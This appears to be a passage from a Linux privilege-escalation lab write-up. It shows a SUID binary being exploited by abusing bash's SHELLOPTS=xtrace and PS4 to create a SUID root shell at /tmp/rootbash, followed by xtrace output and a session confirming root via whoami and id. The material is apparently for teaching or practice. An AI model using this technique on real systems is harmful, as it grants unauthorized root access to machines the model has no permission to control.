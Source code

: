```bash
<test>shift
<test>'[' 0 -gt 0 ']'
<test>'[' -r /etc/init/apache2.conf ']'
<test>'[' -x /etc/init.d/apache2 ']'
<test>exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1670) already running
.

user@debian:~$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1670) already running
```

- Gaining root access:

```bash
user@debian:~$ /tmp/rootbash -p
rootbash-4.1# whoami
root
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```
